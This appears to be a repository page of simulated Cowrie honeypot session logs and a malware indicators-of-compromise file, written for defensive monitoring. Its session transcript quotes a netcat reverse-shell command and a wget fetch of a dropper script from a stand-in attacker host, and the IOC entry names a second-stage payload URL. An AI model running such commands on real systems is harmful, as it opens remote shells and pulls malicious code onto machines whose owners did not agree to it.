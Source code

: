 # 🐚 Cowrie Session Logs (Simulated)

## Session ID: 2025-05-17_03-42-01
**Source IP**: 172.16.0.54  
**Threat Tags**: `C2_REVERSE_SHELL_ATTEMPT`, `MALWARE_UPLOAD`  
**Transcript Snippet**:
```bash
nc -e /bin/sh 172.16.0.54 4444
wget http://evil.example.com/dropper.sh

Actions Taken:

Session logged in /opt/cowrie/logs/sessions/2025-05-17/03-42-01

Alert sent to:

kevinlandrycyber@gmail.com

Telegram Operator Bot

Threat Level: High


---

### 📁 `malware_IOCs.md`

```md
# 🧬 Malware Indicators of Compromise (IOCs)

## Sample: dropper.sh

- **SHA256**: `e99a18c428cb38d5f260853678922e03abd8335eabc6dca5f8057bc6c0d2dd52`
- **URL**: `http://evil.example.com/dropper.sh`
- **Filename**: `dropper.sh`
- **Observed Behavior**: Script attempts privilege escalation and second-stage payload fetch from `hxxp://malicious.example.biz/stage2.bin`
